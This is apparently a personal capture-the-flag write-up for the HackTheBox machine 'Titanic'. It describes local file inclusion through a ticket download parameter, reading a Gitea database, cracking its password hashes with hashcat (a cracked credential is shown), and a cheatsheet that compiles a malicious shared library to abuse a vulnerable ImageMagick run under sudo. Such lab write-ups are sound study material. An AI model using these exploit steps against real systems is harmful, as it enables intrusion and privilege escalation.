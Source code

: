 # Titanic \[Linux Easy]

## Report

HTTP website posts a form and downloads a 'ticket' from local, vulnerable to LFI, find an exposed gitea directory with access to source mentioning path to find creds. Leverage this to find creds for user 'developer'

Looking around, see a script which uses binary 'ImageMagick' as sudo which uses an outdated version that is vulnerable to Arbritary Code Execution

{% embed url="https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8" %}

## Cheatsheet

```
#Final path for LFI, after reading documentation
/home/developer/gitea/data/gitea/gitea.db

hashcat64.exe -m 10900 hash.txt rockyou.txt -d 1

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
attribute((constructor)) void init(){
system("sudo cat /root/root.txt");
exit(0);
}
EOF

magick /dev/null dev/null
```

## Proof

endpoint `/book` post form data
\
`/download` variable ticket modify this yea

v2 was forbidden                                   (Was there any point?)

`/home/developer/gitea/data:/data`  (From gitea dockerfile)

`data/gitea.db`                                       (From Google, db file path)

volumes:
\
`- ./gitea:/data`                                         (From gitea documentation, SQL Database setup)

Our dockerfile mentions one path and the sql dockerfile appends to it further

Hence final path: `/home/developer/gitea/data/gitea/gitea.db`



Convert gitea PBKDF2-HMAC-SHA256 password hashes to hashcat readable form

`developer:25282528`

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../../.gitbook/assets/image (82).png" alt="" width="563"><figcaption></figcaption></figure></div>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## In-Game Pitch Notes

Once you clock an LFI, you have to be thinking about exposing creds come on

Privesc Methodology

linpease
\
sudo -l
\
suid
\
crontab
\
no sus binaries with useless perms
\
no path exploit

opt was written in red lmao (readable by user but not world readable)

The convert command is deprecated in IMv7, use "magick" instead of "convert" or "magick convert"
